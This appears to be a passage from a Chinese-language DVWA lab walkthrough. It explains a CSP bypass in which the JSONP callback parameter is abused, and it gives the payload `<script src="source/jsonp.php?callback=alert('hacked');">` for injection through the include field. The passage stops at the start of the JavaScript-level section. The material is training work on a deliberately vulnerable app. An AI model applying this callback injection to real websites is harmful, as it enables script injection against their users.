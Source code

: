 ```php  
function clickButton() {  
    var s = document.createElement("script");  
    s.src = "source/jsonp.php?callback=solveSum";  
    document.body.appendChild(s);  
}  
  
function solveSum(obj) {  
    if ("answer" in obj) {  
        document.getElementById("answer").innerHTML = obj['answer'];  
    }  
}  
  
var solve_button = document.getElementById ("solve");  
  
if (solve_button) {  
    solve_button.addEventListener("click", function() {  
        clickButton();  
    });  
}  
```

CSP头中只有`script-src 'self'`说明只允许本节面加载的js执行。js逻辑：  

点击按钮 -> js 生成一个 script 标签(src 指向 source/jsonp.php?callback=solveNum), 并把它加入到 DOM 中 -> js 中定义了一个 solveNum 的函数 -> 因此 script 标签会把远程加载的`solveSum({"answer":"15"})`当作js代码执行。  

但是服务端的代码中，可以接收include传入的参数。  

callback 参数可以被操控以生成任何你想要得到的结果, 比如 alert, 因此可以构造 Payload:  

```jsx  
<script src="source/jsonp.php?callback=alert('hacked');"></script>  
```

把这个当做 include 参数传给界面就注入成功  

## JavaScript  

### low  

```jsx  
<?php  
$page[ 'body' ] .= <<<EOF  
<script>  
  
/*  
MD5 code from here  
<https://github.com/blueimp/JavaScript-MD5>  
*/  
  
```